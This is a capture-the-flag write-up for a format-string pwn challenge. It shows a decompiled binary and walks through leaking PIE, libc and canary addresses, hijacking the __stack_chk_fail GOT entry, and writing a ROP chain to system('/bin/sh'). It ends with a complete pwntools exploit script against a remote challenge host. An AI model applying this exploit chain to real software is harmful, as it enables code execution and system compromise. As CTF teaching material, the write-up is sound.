

## 1. Printf

author: 0x1337
points: 495

the checksec output shows
```
  Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

WoW! we have partial RelRo cant wait for GOT overwrites.

the decomp:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4[2]; // [rsp+8h] [rbp-228h] BYREF
  __int64 buf[68]; // [rsp+10h] [rbp-220h] BYREF

  buf[67] = __readfsqword(0x28u);
  memset(buf, 0, 0x210uLL);
  buf[64] = 1LL;
  buf[65] = (__int64)&buf[64];
  v4[1] = 0;
  v4[0] = 0;
  puts("Easy peasy printf, don't you think?");
  printf("I feel generous so have this: %p\n", main);
  putchar(62);
  __isoc99_scanf("%u", v4);
  if ( v4[0] > 0x20u )
  {
    printf("not this again :)");
    exit(0);
  }
  buf[65] += (unsigned int)v4[0];
  puts("Show me what you've got!");
  printf("> ");
  read(0, buf, 0x200uLL);
  puts("Here we go!!");
  printf((const char *)buf);
  return 0;
}
```


If you're unfamiliar with format strings i recommend you to first read this excellent [blog](https://axcheron.github.io/exploit-101-format-strings/) which explains most of the stuff required in detail.

As you can see, we once again have one shot at printf here... but on stack leak this time,
so we cant modify the RIP in printf's frame easily without some bruteforce.

Instead we have PIE leak:
```c
 printf("I feel generous so have this: %p\n", main);
 ```

 And seeing that the binary has partial relro, you should start which got should we be overwriting
 using this leak.
 Another wonderful thing is the stack pointer present in the buffer area which gets modified based on
 our first input

 ```c
 buf[64] = 1LL;
 buf[65] = (__int64)&buf[64];
 ```
```c
buf[65] += (unsigned int)v4[0];
```
`v4` here cant be greater than 32, No problem! we can add '24' to so `buf[64]` will now contain
a pointer to where canary is!!

This is great because if we trigger `__stack_chk_fail` by overwriting canary, we can call main again!
by overwriting the GOT entry of `__stack_chk_fail` with `main` address


So our first payload will try leak libc address and stack address (the stack address where canary is)
and also overwrite GOT entry for  `__stack_chk_fail` as well as canary.



The payload:
```python
sz = exe.sym.main & 0xffff
sz -= 34
pl = b'.%77$p.%73$p.aaa'+f'%{sz}c%14$hnaa'.encode()+b'%2c%73$hnaaaaaaaa'+p64(exe.got['__stack_chk_fail'])
```

Let's deconstruct this payload, here i am leaking 77th and 73rd indexes which contain the libc address
and stack canary addresss respectively
Also the offset of controllable area is again 8 
Then i overwrite the 2 bytes on GOT `__stack_chk_fail` to make it `main` and overwrite canary by doing
`%2c%72$hn`

the `a`s are there for padding 

as you can see, on doing `x/100gx $rsp` after putting a bp on printf
you can see
```
0x7ffc35b49198:	0x00007ffc35b491a8	0x0000000000000000
0x7ffc35b491a8:	0xd7fcc47afa37d700	0x0000000000000001
```
we indeed have a pointer to canary which is the on 73rd index
and

```
0x7ffc35b48f88:	0x0000000000000018	0x252e70243737252e
0x7ffc35b48f98:	0x6161612e70243337	0x2563353932333325
0x7ffc35b48fa8:	0x2561616e68243431	0x6e68243337256332
0x7ffc35b48fb8:	0x6161616161616161	0x000055556f64b010
```

where 0x18 was the num we entered to get it to point to stack_canary and our payload after that.

So we get our leaks, and write the LSB of the canary and the 2bytes of GOT entry
giving us a shot to call main again

like in the previous challenge we once again calculate the rip in printf's stack frame and write our
rop chain in there using pwntools

```python
write = { rip:pop_rdi,rip+8:binsh,rip+16:ret,rip+24:libc.sym.system}
pl = fmtstr_payload(8,write)
```

And finally get our shell


The solve script:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./printf2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.terminal= ['alacritty','-e','bash','-c']


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.blitzhack.xyz",3333)
        context.noptrace=True

    return r


def main():
    r = conn()
    r.recvuntil(b'this:')
    exe.address =  int(r.recvline().strip(),16) -exe.sym.main
    log.info(f'pie : {hex(exe.address)}')
    off = 8
    r.sendlineafter(b'>',b'24')
    sz = exe.sym.main & 0xffff
    sz -=34
    pl = b'.%77$p.%73$p.aaa'+f'%{sz}c%14$hnaa'.encode()+b'%2c%73$hnaaaaaaaa'+p64(exe.got['__stack_chk_fail'])
    print(pl)
    gdb.attach(r)
    r.sendlineafter(b'>',pl)
    l = r.recvuntil(b'aaaaaa')
    print(l)
    libc.address = int(l.split(b".")[1],16) -0x29d90
    stack = int(l.split(b".")[2],16)
    log.info(f"libc : {hex(libc.address)}")
    log.info(f"stack : {hex(stack)}")
    pop_rdi =  libc.address+0x2a3e5
    ret = pop_rdi+1
    binsh = next(libc.search(b'/bin/sh'))
    #one_gad = libc.address + 0x583e3
    #pop_rbx = libc.address+0xef52b
    stk = exe.got['__stack_chk_fail']
    rip = stack-0x470
    log.info(f"the rip :{hex(rip)}")
    write = { rip:pop_rdi,rip+8:binsh,rip+16:ret,rip+24:libc.sym.system}

    pl = fmtstr_payload(8,write)
    print(len(pl))
    sleep(1)
    r.sendlineafter(b'>',b'24')
    r.sendlineafter(b'>',pl)
    r.interactive()


if __name__ == "__main__":
    main()
```
